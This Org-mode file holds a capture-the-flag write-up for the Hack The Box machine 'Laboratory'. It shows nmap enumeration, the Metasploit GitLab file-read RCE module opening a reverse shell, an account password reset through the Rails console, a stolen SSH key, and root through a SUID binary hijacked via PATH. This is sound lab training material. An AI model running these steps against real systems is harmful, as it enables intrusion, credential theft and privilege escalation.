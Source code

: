 #+TITLE: Laboratory
#+AUTHOR: AsmArtisan256

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: laboratory

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

* Enumeration

We start by using Nmap right away:

#+BEGIN_SRC
$ nmap -sC -sV -p1-65535 -oN nmapresult.txt 10.10.10.216
#+END_SRC

And the result:

#+BEGIN_SRC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 10:44 WET
Nmap scan report for 10.10.10.216
Host is up (0.045s latency).
Not shown: 65532 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
| tls-alpn:
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 119.42 seconds
#+END_SRC

This result shows us three different open ports: 22, 80, 443.
Under the port 443 entry, we can see this string =Subject Alternative Name:
DNS:git.laboratory.htb=. This says that there is a subdomain. So in this case,
we add it to the =/etc/hosts= file alongside the =laboratory.htb= one.

By looking at the =laboratory.htb= website, we do not find anything interesting
really. At least at a first glance. No URLs to other pages, no interesting JavaScript
files.

By checking =git.laboratory.htb=, we can clearly see that the first page, which
is a sign in page, is a GitLab Community Edition instance! We can also register
our own username here.

If we try to register, unfortunately, we get this error: =1 error prohibited this user from being saved=.
Probably they want us to register with their own domain?

[[./images/img1.jpg]]

And then, after successfuly registering, we are redirected to the dashboard.
From here, the first thing we ought to know is what version of Gitlab is being
used. We can rapidly know this by going to the question mark on the navigation
bar and clicking =Help=. With this, we know we are working with =GitLab
Community Edition Version 12.8.1=.

When searching Google for exploits, there is one result from [[https://hackerone.com/reports/827052][HackerOne]] that
shows an Arbitrary File Read vulnerability tested in GitLab version 12.8.7. This
version is higher than the one we are working with. Alongside this, there is a
full explanation of how the exploit works. There’s even a video of a
demonstration.

* User

Metasploit has made our lives easier by having a script that does it all.

#+BEGIN_SRC
msf6 > use exploit/multi/http/gitlab_file_read_rce
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(multi/http/gitlab_file_read_rce) > show options

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               Required  Description
   ----             ---------------                                               --------  -----------
   DEPTH            15                                                            yes       Define the max traversal depth
   PASSWORD                                                                       no        The password for the specified username
   Proxies                                                                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            80                                                            yes       The target port (TCP)
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  yes       The path to the secrets.yml file
   SECRET_KEY_BASE                                                                no        The known secret_key_base from the secrets.yml - this skips the arbitrary file read if present
   SSL              false                                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /users/sign_in                                                yes       The path to the vulnerable application
   USERNAME                                                                       no        The username to authenticate as
   VHOST                                                                          no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.64     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/http/gitlab_file_read_rce) > set PASSWORD testregister1
PASSWORD => testregister1
msf6 exploit(multi/http/gitlab_file_read_rce) > set USERNAME testregister1
USERNAME => testregister1
msf6 exploit(multi/http/gitlab_file_read_rce) > set VHOST git.laboratory.htb
VHOST => git.laboratory.htb
msf6 exploit(multi/http/gitlab_file_read_rce) > set LHOST 10.10.14.30
LHOST => 10.10.14.30
msf6 exploit(multi/http/gitlab_file_read_rce) > set RHOSTS 10.10.10.216
RHOSTS => 10.10.10.216
msf6 exploit(multi/http/gitlab_file_read_rce) > set RPORT 443
RPORT => 443
msf6 exploit(multi/http/gitlab_file_read_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(multi/http/gitlab_file_read_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.30:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user testregister1
[*] Created project /testregister1/bmfJNdMh
[*] Created project /testregister1/g4kCDTHP
[*] Created issue /testregister1/bmfJNdMh/issues/1
[*] Executing arbitrary file load
[+] File saved as: '~/.msf4/loot/20210206182000_default_10.10.10.216_gitlab.secrets_847052.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /testregister1/bmfJNdMh
[*] Deleted project /testregister1/bmfJNdMh
[*] Attempting to delete project /testregister1/g4kCDTHP
[*] Deleted project /testregister1/g4kCDTHP
[*] Command shell session 1 opened (10.10.14.30:4444 -> 10.10.10.216:42322) at 2021-02-06 18:20:07 +0000

ls -la
total 8
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Feb  6 16:24 ..

#+END_SRC

Now having a reverse shell, we find out that we are the =git= user.
Let’s try messing around with the Gitlab Rails Console:

#+BEGIN_SRC
$ gitlab-rails console
#+END_SRC

There is a cheat-sheet with some commands, from [[https://docs.gitlab.com/ee/administration/troubleshooting/gitlab_rails_cheat_sheet.html][GitLab]].
There are some commands to find users, one of them being
=User.find_by_username('someuser')=. What seems logical to try first is using
this command but trying to find =admin= instead. Unfortunately, zero results.
Maybe we can execute something like =find_by_id=?

We know there is a user called =dexter=. Wonder if we can change the user data.
There is another [[https://docs.gitlab.com/ee/administration/troubleshooting/navigating_gitlab_via_rails_console.html][GitLab link]] that is very helpful.

[[./images/img3.jpg]]

Let’s try setting our own password for =dexter=:

#+BEGIN_SRC
$ user = User.find_by_id(1)
$ user.password = ‘password’
$ user.password_confirmation = ‘password’
$ user.save!
#+END_SRC

Now if we go back to =https://git.laboratory.htb/= and login with
=dexter:password=, we succeed! Let’s check his repositories.

One of them is called =securedocker= and has =CONFIDENTIAL!= in its description.
If we dig in, we can find the users’ =id_rsa= in the =.ssh= folder.

[[./images/img4.jpg]]

We download the file, set permissions to 400 and login:

#+BEGIN_SRC
$ chmod 400 id_rsa
$ ssh -i id_rsa dexter@10.10.10.216
dexter@laboratory:~$
#+END_SRC

After that, we just get the user flag!

* Root

Now, we don’t have the user password, so we can’t actually run =sudo -l= to
check if the user can run some program as superuser.
One thing we can do this use the =find= command to check SUID executable
binaries:

#+BEGIN_SRC
$ find / -perm -4000 -type f -print 2>/dev/null
#+END_SRC

There are many binaries here and we can use
[[https://gtfobins.github.io/][GTFOBins]] to check if there are binaries we can get the advantage of because of SUID.
In =/usr/bin= all binaries are useless. But there is one in =/usr/local/bin/=
called =docker-security=. Running it yields no results, but we can use =ltrace= to see what it is trying to do during runtime:

#+BEGIN_SRC
$ ltrace /usr/local/bin/docker-security

setuid(0)                                                                                                                                          = -1
setgid(0)                                                                                                                                          = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 256
+++ exited (status 0) +++
#+END_SRC

As expected, it sets =uid= and =gid= to =0=.
It is also trying to run =chmod=. So we can spoof this binary using =$PATH= to
spawn a root shell!

The steps to do this are simple:

#+begin_src
$ cd /tmp
$ echo “/bin/bash” > chmod
$ export PATH=/tmp:$PATH
$ echo $PATH # just to check
$ ./usr/local/bin/docker-security
#+end_src

Root permissions! :-)

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">06-02-2021</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
